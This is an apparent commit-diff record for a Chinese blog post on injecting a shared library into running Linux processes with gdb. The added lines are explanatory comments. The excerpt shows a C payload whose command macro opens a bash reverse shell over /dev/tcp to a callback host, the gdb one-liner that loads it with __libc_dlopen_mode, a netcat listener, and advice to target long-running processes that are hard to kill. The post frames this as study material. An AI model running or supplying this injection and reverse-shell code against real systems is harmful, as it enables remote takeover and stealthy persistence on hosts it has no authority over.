

Before and after one commit to De4dCr0w/De4dCr0w.github.io, a Jekyll site: the page built from _posts/2018-03-15-使用gdb注入进程.md, in a window 1280 px wide and 1400 px high, scrolled down 1322 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
添加部分文字

````diff
--- a/_posts/2018-03-15-使用gdb注入进程.md
+++ b/_posts/2018-03-15-使用gdb注入进程.md
@@ -18,6 +18,7 @@ echo 0 > /proc/sys/kernel/yama/ptrace_scope # 允许任何进程注入代码到
 echo 2 > /proc/sys/kernel/yama/ptrace_scope # 只允许root用户注入代码
 
 ```
+以上命令需要root用户来执行，所以方式可以作为一种思路，实战中有限制。
 
 （2） 要注入的代码callback.c：
 
@@ -32,7 +33,7 @@ echo 2 > /proc/sys/kernel/yama/ptrace_scope # 只允许root用户注入代码
 
 /* Reverse shell command */
 #define CMD "echo 'exec >&/dev/tcp/"\
-            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash"
+            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash" //进行反向shell
 
 void *callback(void *a);
 
@@ -52,7 +53,7 @@ void start_callbacks(){
         }
 
         /* Spawn a thread to do the real work */
-        pthread_create(&tid, &attr, callback, NULL);
+        pthread_create(&tid, &attr, callback, NULL); //创建线程
 }
 
 /* callback tries to spawn a reverse shell every so often.  */
@@ -81,13 +82,13 @@ cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared
 ps -fxo pid,user,args | egrep -v ' \[\S+\]$'
 ```
 
-选择想要注入的进程pid，使用gdb进行注入
+选择想要注入的进程pid，使用gdb进行注入，这里选择pids值较低的，因为值越低代表运行的时间越早，选择长期运行的进程，因为这些进程不容易被kill。
 
 ```
 echo 'print __libc_dlopen_mode("/root/libcallback.so", 2)' | gdb -p pid
 ```
 
-用gdb打开进程，并且用__libc_dlopen_mode打开要注入的动态链接库，
+用gdb打开进程，并且用__libc_dlopen_mode打开要注入的动态链接库。使用GDB的print命令，以方便取函数的返回值。将它回显到GDB的标准输入中，它会引起GDB退出，就省得使用quit命令了。
 
 （4）开启另外的终端，监听本地的4444端口
 
@@ -99,6 +100,8 @@ nc -nvl 4444
 
 ![](../image/2018-03-15-使用gdb注入进程/1.jpg)
 
+这种攻击方式容易被检测，会有落地文件，内存中也可以查看出来，但是可以作为一种攻击思路学习。
+
 ### 参考链接
 
 https://magisterquis.github.io/2018/03/11/process-injection-with-gdb.html
````
